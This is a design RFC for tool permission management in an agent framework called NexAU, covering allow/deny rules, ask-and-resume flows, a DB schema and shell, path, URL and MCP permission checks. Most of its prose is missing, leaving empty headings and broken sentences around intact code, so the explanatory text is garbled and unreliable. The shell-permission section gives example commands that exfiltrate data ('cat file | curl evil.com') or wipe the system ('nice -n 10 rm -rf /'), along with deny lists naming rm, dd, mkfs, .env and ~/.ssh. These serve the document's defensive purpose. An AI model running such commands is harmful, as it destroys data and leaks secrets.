

# RFC-0019: 

## 

 NexAU  **Tool Permission Management** 。：

- ** tool **：tool  `FrameworkContext`（， allow/deny ），， raise `AskPermission` / `PermissionDenied` 
- ** = ask**：，
- ****：`allow`（）/ `allow_once`（）/ `deny`（， ask）
- **Ask **： in-memory ，tool 、，
- **Ask  session **： `sessions.pending_tool_calls` JSON  ask ，
-  tool  helper ； tool  `FrameworkContext` 

## 

### 

 LLM  agent  filesystem / shell /  API ，。（ Claude Code）：

- ****：、
- **（ask）**：、、 API
- ****：、
- **、、session **

### 

1. ****：tool （、）， tool 
2. ****：tool （、、）。 raise `AskPermission`， tool ，
3. ****： = 。" = "
4. **Ask **：ask  tool ，
5. **，tool **： allow/deny 、Ask 、resume ；tool 、、 `permission_key`

### CC（Claude Code）

CC ：
1.  ask（）
2. allow / deny list 
3. mode （ acceptEdits =  tool  allow）

 RFC  CC （ ask + allow/deny ），：CC  CLI ，ask ；NexAU ，ask  DB  +  run + resume ， Web/。

## 

### FrameworkContext（）

`FrameworkContext` ，。tool ， raise `AskPermission` / `PermissionDenied` 。

```python
@dataclass
class FrameworkContext:
    session_id: str
    tool_name: str
    allow_rules: list[str]    #  allow 
    deny_rules: list[str]     #  deny 
```

Executor  tool call  `FrameworkContext`：
1.  DB  session + tool_name （tool YAML  +  allow ）
2.  `FrameworkContext`， tool 

### Tool 

tool  `ctx: FrameworkContext` ，。 tool  helper ：

```python
from nexau.archs.permissions import check_shell_permission

def run_shell_command(command: str, ctx: FrameworkContext) -> str:
    # ，
    check_shell_permission(ctx, command)
    return subprocess.run(command, ...).stdout
```

####  tool  helper（）

 helper ，" + raise "。，：

- **`check_permission(ctx, permission_key, prompt)`**：。 `permission_key`  allow/deny rules ： allow → 、 deny → raise `PermissionDenied`、 → raise `AskPermission`。 tool
- **`check_path_permission(ctx, path)`**：。 `pathspec` （gitignore ），。 read_file / write_file / edit_file 
- **`check_shell_permission(ctx, command)`**：。 `shlex` ，。 run_shell_command 

####  tool 

 tool  `check_permission`。、（、）：

```python
def check_permission(ctx: FrameworkContext, permission_key: str, prompt: str) -> None:
    """（）。"""
    if permission_key in ctx.deny_rules:
        raise PermissionDenied(reason=f"{permission_key} ")
    if permission_key not in ctx.allow_rules:
        raise AskPermission(prompt=prompt, permission_key=permission_key)

def stripe_api(action: str, api_key: str, amount: int, ctx: FrameworkContext) -> str:
    # : ，
    if action in ("list", "retrieve"):
        return call_stripe(action, api_key)

    # : ，
    if api_key.startswith("sk_test_"):
        return call_stripe(action, api_key, amount)

    #  + : ， API 
    check_permission(
        ctx,
        permission_key=action,
        prompt=f" {action}（ {amount}）?",
    )
    return call_stripe(action, api_key, amount)
```

"、、"， tool 。 `check_permission`  `call_stripe()` —— raise `AskPermission`， API 。

### Tool （）

（HOW） tool ——tool  `check_permission`、。（WHAT） tool  YAML ， `binding` ：

```yaml
tools:
  - name: read_file
    yaml_path: ./tools/read_file.tool.yaml
    binding: nexau.archs.tool.builtin.file_tools:read_file
    permissions:
      allow:
        - "/workspace/**"
      deny:
        - ".env"
        - "~/.ssh/**"

  - name: run_shell_command
    yaml_path: ./tools/run_shell_command.tool.yaml
    binding: nexau.archs.tool.builtin.shell_tools:run_shell_command
    permissions:
      allow: ["ls", "cat", "grep", "pwd"]
      deny: ["rm", "dd", "mkfs"]

  - name: stripe_api
    yaml_path: ./tools/stripe_api.tool.yaml
    binding: app.tools.stripe:stripe_api
    permissions: ./permissions/stripe.yaml

  #  permissions  →  allow: ["**"], deny: []（）
  - name: write_file
    yaml_path: ./tools/write_file.tool.yaml
    binding: nexau.archs.tool.builtin.file_tools:write_file
```

- ** `permissions` **（）=  `allow: ["**"], deny: []`，，（）
- **`permissions`  allow/deny ** = ， ask
-  session  DB ， session  allow ****
-  tool  agent  YAML  allow/deny 

###  tool 

tool 、raise `AskPermission`  `permission_key`， allow ：

```python
# （）—  shell helper 
head = shlex.split(command)[0]     # permission_key = "npm"

# （）—  filesystem helper 
path = resolve(path)               # permission_key = "/workspace/src/main.py"

#  —  tool
action = "charge"                  # permission_key = "charge"
```

 allow  `permission_key` ——allow  key， tool。

#### `"**"` 

 tool ： `allow_rules`  `"**"`，****，。， tool  helper 。

—— `permissions`  tool  `allow: ["**"]`，`check_permission`  helper  `"**"` ，。

### Ask 

#### 

tool （ helper） allow/deny  raise `AskPermission`：

```python
raise AskPermission(
    prompt=" npm install ?",
    permission_key="npm",    #  allow  key
)
```

`AskPermission`  `prompt`（） `permission_key`（ allow ）。`tool_call_id` / `tool_name`  executor ，tool 。

：`allow`（）/ `allow_once`（）/ `deny`（），，tool 。

#### Executor 

****： turn  tool_call ，executor  tool call  catch ，， `asyncio.gather` ：

```python
async def _execute_one(self, tool_call, ctx) -> ToolOutcome:
    try:
        result = await tool_fn(**args, ctx=ctx)
        return AllowOutcome(tool_call_id=..., result=result)
    except PermissionDenied as e:
        return DenyOutcome(tool_call_id=..., reason=e.reason)
    except AskPermission as e:
        return AskOutcome(tool_call_id=..., prompt=e.prompt, permission_key=e.permission_key)

outcomes = await asyncio.gather(*[self._execute_one(tc, ctx) for tc in tool_calls])
```

：

```
outcomes ：
  ├─ AllowOutcome  →  ToolResult
  ├─ DenyOutcome   →  denial ToolResult（is_error=True）
  └─ AskOutcome    →  session.pending_tool_calls， ToolResult

 outcome ：
  ├─  Ask →  LLM loop
  └─  Ask → agent.run()  status=paused_for_permissions
```

****：Ask  tool_call  ToolResult，history  orphan tool_use 。 turn  Allow/Deny  tool_call  ToolResult，。， session  `awaiting_permission` ， LLM  history。

####  Resume

 ask ：

|  |  |  |
|------|---------|--------|
| **allow** |  allow  DB，re-call tool （ allow → ） | ， |
| **allow_once** |  `permission_key`  ctx  `allow_rules`（ DB），re-call tool （ → ） | ， ask |
| **deny** |  re-call tool， denial ToolResult | ， ask（ CC） |

**deny **（ CC）： deny ， `permission_rules` 。 LLM ，tool ， ask。——deny ""，""。

Resume  executor  ToolResult（ denial），orphan tool_use ， LLM loop。

** tool_use  ToolResult**， ask → allow 。

###  turn 

 turn  LLM  `[T1, T2, T3]`， tool  `[Allow, Ask, Deny]` ：

- **T1（Allow）**：， ToolResult
- **T3（Deny）**： denial ToolResult（`is_error=True`）
- **T2（Ask）**： `session.pending_tool_calls`，run 

 Allow/Deny  history。 Ask  tool_call  orphan。

****： turn ，「 A2」。

### Session  agent.run() 

Session  permission ：

```
idle                ←  run
  │
  ↓ agent.run() 
running             ←  LLM loop, UI  disable
  │
  ↓  Ask,  session.pending_tool_calls, run 
awaiting_permission ← pending_tool_calls  decision=null, UI  disable +  ask 
  │
  ↓  decision  null
running (resume)    → idle (run )
```

****：

```python
def run(...):
    pending = self._storage.get_session(session_id).pending_tool_calls
    if pending and any(v["decision"] is None for v in pending.values()):
        raise PendingPermissionsError(session_id=session_id, pending=pending)
    #  run loop ...
```

- ****：`awaiting_permission` （，）
- ****：， API /  UI  / race condition

###  Schema

#### `permission_rules` （allow/deny ）

|  |  |  |
|------|------|------|
| `session_id` | TEXT FK | `ON DELETE CASCADE` |
| `tool_name` | TEXT | |
| `rule_content` | TEXT | （ `"npm"`, `"/workspace/**"`） |
| `behavior` | TEXT | `allow` / `deny` |
| `source` | TEXT | `config`（ AgentConfig）/ `user`（） |
| `created_at` | TIMESTAMP | |
| PK | `(session_id, tool_name, rule_content, behavior)` | |

Session ， agent  tool ， tool YAML  `permissions`  `source=config` （allow  deny  config）。 `permissions`  tool 。
 session  allow  `source=user, behavior=allow` 。**deny **——deny ，。
`FrameworkContext`  session + tool_name 。

#### `sessions.pending_tool_calls` （Ask ）

 `sessions` ：

```sql
ALTER TABLE sessions ADD COLUMN pending_tool_calls JSON DEFAULT NULL;
```

JSON （ `tool_call_id`  key）：

```json
{
  "tc_abc": {
    "tool_name": "run_shell_command",
    "prompt": " npm install ?",
    "permission_key": "npm",
    "decision": null
  },
  "tc_def": {
    "tool_name": "run_shell_command",
    "prompt": " rm -rf dist ?",
    "permission_key": "rm",
    "decision": "allow"
  }
}
```

- **`NULL`（）**： ask，
- ** `decision: null` **：`awaiting_permission`，
- ** `decision`  null**： resume
- **resume **： `NULL`

****：UI ， ask card 。 `decision`。 OK—— resolve  decision， resolve  null，。

****：session  `ON DELETE CASCADE`  permission_rules。`pending_tool_calls`  session ， session 。

#### 

。 schema ，/ `001_tool_permission.sql`：

```sql
-- 001_tool_permission.sql
-- ： IF NOT EXISTS，

CREATE TABLE IF NOT EXISTS permission_rules (
    session_id  TEXT NOT NULL REFERENCES sessions(id) ON DELETE CASCADE,
    tool_name   TEXT NOT NULL,
    rule_content TEXT NOT NULL,
    behavior    TEXT NOT NULL CHECK (behavior IN ('allow', 'deny')),
    source      TEXT NOT NULL CHECK (source IN ('config', 'user')),
    created_at  TIMESTAMP NOT NULL DEFAULT CURRENT_TIMESTAMP,
    PRIMARY KEY (session_id, tool_name, rule_content, behavior)
);

-- SQLite  ADD COLUMN IF NOT EXISTS， pragma 
--  Python ，：
-- ALTER TABLE sessions ADD COLUMN pending_tool_calls JSON DEFAULT NULL;
```

：

```python
def migrate_001_tool_permission(db):
    # 1. permission_rules （CREATE IF NOT EXISTS ）
    db.execute(PERMISSION_RULES_DDL)

    # 2. sessions.pending_tool_calls （SQLite  IF NOT EXISTS ，）
    columns = {row["name"] for row in db.execute("PRAGMA table_info(sessions)")}
    if "pending_tool_calls" not in columns:
        db.execute("ALTER TABLE sessions ADD COLUMN pending_tool_calls JSON DEFAULT NULL")
```

### Resume 

`agent.run()`  `pending_tool_calls`  `decision`  null  resume ：

1.  `session.pending_tool_calls`
2.  `tool_call_id` ：
   - `decision=allow`： `permission_key`  `permission_rules` （`source=user, behavior=allow`）， tool （ allow  →  → ）
   - `decision=allow_once`： `FrameworkContext`  `permission_key`  `allow_rules`（ DB）， tool （ allow → ）
   - `decision=deny`： denial ToolResult（ tool ，）
3.  orphan tool_use  ToolResult  history（）
4. `session.pending_tool_calls`  `NULL`
5.  LLM loop

****：resume ， +  allow  tool 。： tool  `decision`  `consumed`， consumed 。

## 

### A1.  vs （：）

****：`agent.run()`  pending  `RunResult(status="paused_for_permissions", pending=[...])`，。

****：
- ，""
- NexAU （`SessionNotFound`、`AgentLockError`），

### A2.  turn  vs  Allow/Deny（：）

****： turn  `[Allow, Ask, Deny]` ，， Ask resolve 。

****：turn ，。

****：；Allow ""，。

### A3.  PermissionPolicy  vs （：）

****： `PermissionPolicy` Protocol， `AgentConfig.permissions: dict[str, PermissionPolicy]` per-tool 。 tool （pre-dispatch）。

```python
class PermissionPolicy(Protocol):
    def check(self, tool: Tool, ctx: PolicyContext, **input_kwargs) -> PermissionDecision: ...

AgentConfig(permissions={"run_shell_command": BashPermissionPolicy(safe={"ls"}, ...)})
```

****：
- ，tool 
-  tool ，

****：
- Tool ，（ Stripe "、、"）
-  Policy ，——Ask （raise → persist → stop → resume）
- " PermissionPolicy"， raise `AskPermission` / `PermissionDenied` 

****：。 tool  pre-dispatch ， tool 。 MVP ， pre-dispatch。

### A4.  tool  policy list（rejected）

****：`AgentConfig.permissions: list[PermissionPolicy]`， policy  `applies_to(tool)`  tool， policy  tool call 。

****： policy 。""（deny > ask > allow）， Allow  policy  Ask/Deny ，。 override ，。Per-tool （ Policy ）。

## （RFC  vs ）

>  RFC 。RFC ；，→。
>
> : `nexau/archs/permissions/helpers.py`
> CC : `examples/cc_agent/cc_agent.yaml`
> E2E : `docs/testing/permission-e2e-manual-test-log.md`（60 ，60/60 PASS）

### Helper : 3 → 5

RFC  3  helper（`check_permission` / `check_path_permission` / `check_shell_permission`）。 5 ：

| Helper | RFC  |  |  |
|--------|---------|---------|------|
| `check_permission` |  |  | — |
| `check_path_permission` | pathspec gitignore  | ： glob  +  |  |
| `check_shell_permission` | `shlex.split()[0]`  | ：CC  Bash  | **** |
| `check_url_permission` | — | （fnmatch ） | **** |
| `check_mcp_permission` | — | MCP （server/tool ） | **** |

### check_shell_permission 

RFC 「uses `shlex.split(command)[0]` to extract the command head，」。 CC  Bash ，：

#### 1. Readonly （）

```python
_READONLY_COMMANDS = frozenset({
    # CC : ls, cat, head, tail, grep, find, wc, diff, stat, du, cd
    # : file, which, pwd, echo, env, printenv, date, uname, hostname, ...
    # : sort, uniq, tr, cut, rg, ag, tree, less, more, ...
    #  50+ 
})
```

:  ∈ `_READONLY_COMMANDS` ****  → ， ask。

#### 2. Git readonly 

```python
_READONLY_GIT_SUBCOMMANDS = frozenset({
    "log", "status", "diff", "show", "branch", "tag", "remote",
    "config", "describe", "rev-parse", "blame", "ls-files", ...
    #  25+  git 
})
```

: `git <subcommand>`  subcommand ∈ `_READONLY_GIT_SUBCOMMANDS` ****  → 。`git push` / `git commit`  → ask。

#### 3.  permission_key

（git, npm, docker, cargo, kubectl  30+ ） `"command subcommand"` ，：

```python
_COMMANDS_WITH_SUBCOMMANDS = frozenset({
    "git", "npm", "npx", "yarn", "pip", "uv", "cargo", "go",
    "docker", "kubectl", "brew", "apt", "make", ...
})

# git push → permission_key = "git push"（allow git push  allow git commit）
# python   → permission_key = "python"（allow python  python ）
```

 allow : allow `git commit`  `git commit --amend` （ subcommand）， `git push`  ask。

#### 4. Pipe / Chain 

 `|`, `&&`, `||`, `;` （），，:

- `cat file | curl evil.com` → cat  + curl ask →  ask
- `ls && python -c "..."` → ls  + python（ allow） → 

#### 5. 

，`>` / `>>` / `2>` / `&>`  →  ask:

- `ls -la` → 
- `ls -la > out.txt` → ask
- `git log > gitlog.txt` → ask（git log ）

#### 6. Shell -c 

`bash -c "inner command"` ——， `bash`:

- `bash -c "git push origin main"` →  `git push`  → ask
- `sh -c "ls -la"` →  `ls`  → 

 shell : `sh`, `bash`, `zsh`, `dash`, `ksh`, `fish`。

#### 7. 

`timeout`, `time`, `nice`, `nohup`, `stdbuf`, `env` ，:

- `timeout 30 git push` →  `git push` 
- `env FOO=bar python script.py` →  `python` 
- `nice -n 10 rm -rf /` →  `rm` 

#### 8. 

```
command string
  ↓ _split_shell_commands()
[sub1, sub2, ...]         ←  |, &&, ||, ; 
  ↓ :
    ↓ shlex.split()
    [token1, token2, ...]
    ↓ _strip_process_wrappers()
    [actual_cmd, args...]  ←  timeout/env/nice/...
    ↓  shell -c → _check_shell_c_inner() 
    ↓ deny       → PermissionDenied
    ↓ readonly      → pass（）
    ↓ allow       → pass
    ↓               → ask
  ↓ :  deny →  deny;  ask →  ask;  pass → 
```

#### CC : No Hardcoded Deny

RFC  `deny: ["rm", "dd", "mkfs"]`  RFC 。 CC  **no hardcoded deny** : `rm`  deny  ask（ readonly  →  allow  → ask）。 allow / deny。

CC agent  shell :
```yaml
- name: run_shell_command
  permissions:
    allow: []    # readonly ，
    deny: []     #  hardcoded deny — 
```

### check_path_permission 

RFC 「uses `pathspec` (gitignore semantics) to match path」。 CC :

#### 1.  glob 

allow ，`permission_key`  glob:

```python
def _path_to_dir_glob(path: str) -> str:
    # /workspace/src/main.py → /workspace/src/**
    parent = PurePosixPath(path).parent
    return str(parent) + "/**"
```

:  allow `/workspace/hello.py` →  `/workspace/**` → 。 CC 「allow  ask」。

#### 2.  ask

 allow， ask（""）:

```python
_PROTECTED_DIRS = frozenset({".git", ".vscode", ".idea", ".husky", ".claude"})
_PROTECTED_FILES = frozenset({
    ".gitconfig", ".gitmodules",
    ".bashrc", ".bash_profile", ".zshrc", ".zprofile", ".profile",
    ".ripgreprc", ".mcp.json", ".claude.json",
})
```

: `"**"`  →  ask → 。

### check_url_permission（）

RFC  web_fetch 。 `check_url_permission`，:

```python
def check_url_permission(ctx, url):
    hostname = urlparse(url).hostname
    # deny （ *.example.com fnmatch ）
    # allow （）
    #  → AskPermission(permission_key=hostname)
```

- permission_key = hostname（ `example.com`）
- allow `example.com`  URL ， ask
-  fnmatch : `*.github.com`  GitHub 

CC agent :
```yaml
- name: web_fetch
  permissions:
    allow: []    #  ask
    deny: []
```

### check_mcp_permission（）

RFC  MCP 。 `check_mcp_permission`， server  tool :

#### Permission Key 

```
mcp__{server_name}__{tool_name}
: mcp__filesystem__directory_tree
```

#### （）

```python
def check_mcp_permission(ctx, server_name, tool_name):
    server_key = f"mcp__{server_name}"          # server 
    tool_key = f"mcp__{server_name}__{tool_name}"  # tool 

    # deny: server_key  tool_key  → PermissionDenied
    # allow: server_key  tool_key  → 
    #  → AskPermission(permission_key=tool_key)
```

- **tool  allow**: allow `mcp__filesystem__directory_tree` → ， server  `search_files`  ask
- **server  allow**: allow `mcp__filesystem` →  server 
- ** always-ask**: MCP server  `permissions: {allow: [], deny: []}` →  ask

#### CC Agent 

```yaml
mcp_servers:
  - name: filesystem
    type: stdio
    command: npx
    args: ['-y', '@modelcontextprotocol/server-filesystem', '/private/tmp/workspace']
    timeout: 30
    permissions:
      allow: []    #  MCP  ask
      deny: []
```

MCP  agent  MCP server （ `@modelcontextprotocol/server-filesystem`  14 ）， `mcp__{server}__{tool}` 。 shell  head/subcommand （ `git` / `git push`）。

###  RFC 

|  | RFC  |  |  |
|------|---------|---------|------|
| Helper  | 3  | 5 （+url, +mcp） | web_fetch  MCP  |
| Shell  |  |  CC Bash （8 ） | CC  shell  |
| Path  | pathspec gitignore | +  glob +  | CC  allow-one-file-allow-dir  protected path |
|  | `deny: ["rm", "dd"]` | `deny: []`（no hardcoded deny） | CC : ， deny |
| MCP  |  | server/tool  | MCP ， |
|  |  | `examples/cc_agent/cc_agent.yaml` | 19  + 1  MCP server  |
| E2E  |  4  | 60  E2E  PASS |  |

## 

 RFC ****， tool（YAML  `permissions` ） `allow: ["**"], deny: []`， `"**"` ，。 NexAU  tool 。

（North Coder）：
1.  NexAU  RFC 
2.  tool  `ctx: FrameworkContext` ，（ helper ）
3.  tool  YAML  `permissions`  allow/deny 
4.  UI： `session.pending_tool_calls`  ask  + resolve API
5. （） CC  rule 、settings 、permission mode  UX ——

## 

### （ ≥ 80%）
- `FrameworkContext` ： AgentConfig + DB 
-  tool  helper：`check_path_permission` pathspec gitignore 、`check_shell_permission` shlex 
- helper ： allow → 、 deny → raise PermissionDenied、 → raise AskPermission
- Tool YAML permissions ：session  `permission_rules` 
- Executor ： tool call （AllowOutcome / DenyOutcome / AskOutcome）
- Executor ：Allow 、Deny  denial ToolResult、Ask  `session.pending_tool_calls` +  run
-  turn （ Ask ）
- `agent.run()` ：`pending_tool_calls`  decision  raise
- Resume ：allow（re-call + ）、allow_once（re-call +  allow_rules + ）、deny（ denial）
- ：session  rules，`pending_tool_calls`  session 
- ：resume  allow tool（consumed ）

### 
- E2E：LLM → Ask →  →  → resolve → resume → 
- E2E： Ask → （allow ）
- E2E：deny  ask（deny ）
- E2E：allow_once  ask（）

### 
- : `docs/testing/permission-e2e-test-plan.md`
- : `docs/testing/permission-e2e-manual-test-log.md`（60 ，60/60 PASS）

### 
-  NexAU /（`permissions=None` ）

## 

###  DAG



### 

#### T1: FrameworkContext +  +  helper
****： `FrameworkContext`（， `allow_rules` / `deny_rules`）、`PermissionRules`、`AskPermission` / `PermissionDenied` 、`PendingPermissionsError`。 tool YAML schema  `permissions` （ list ）。 tool  helper  `check_path_permission()` / `check_shell_permission()`（）。
****：
-  import path （`nexau.archs.permissions` ）
-  `permissions`  tool （）
- ：helper 
****：

#### T2: DB schema: permission_rules  + sessions.pending_tool_calls 
****： `001_tool_permission.sql` （`permission_rules`  + `sessions`  `pending_tool_calls` JSON ）。（）。 CRUD helper。。Session  tool  YAML `permissions` 。
****：
- `001_tool_permission.sql` （）
- ： permission_rules  pending_tool_calls 
- ：
- ：permission_rules CRUD、cascade delete、
- ：`pending_tool_calls` 、NULL 
****：

#### T3: Executor  +  + Ask 
****：Executor  tool  `FrameworkContext`（ DB ） tool 。 tool call  try/except， `ToolOutcome`（`AllowOutcome` / `DenyOutcome` / `AskOutcome`），gather 。`AskOutcome`  `session.pending_tool_calls`。 turn " Allow/Deny + Ask "。
****：
- ： executor 
- ： Ask 
- ：
-  middleware before/after_tool 
****：T1, T2

#### T4: agent.run  + Resume 
****：`agent.run()`  `session.pending_tool_calls`， decision  raise `PendingPermissionsError`。 `agent.resolve_permission(tool_call_id, decision)` API（ `pending_tool_calls`  decision）。Resume ：allow →  + re-call tool、allow_once →  `permission_key`  `allow_rules` + re-call tool、deny →  denial。 `consumed`。
****：
- ：、resolve API、resume 、
- ：pause →  Agent  →  resume
****：T3

#### T5:  tool 
****： NexAU  tool（read_file / write_file / edit_file / run_shell_command） `ctx: FrameworkContext` ， helper（`check_path_permission` / `check_shell_permission`）。
****：
-  tool ， ctx （`ctx=None` ）
- Filesystem ：gitignore 
- Shell ： /  /  
****：T1

#### T6: E2E 
****：`examples/e2e_tool_permission/` （ + interactive playground）； `test_tool_permission_e2e.py`。
****：
- E2E ，assertion 
- ：Ask →  → resume → 
- ：allow（）/ allow_once（）/ deny（）
****：T4, T5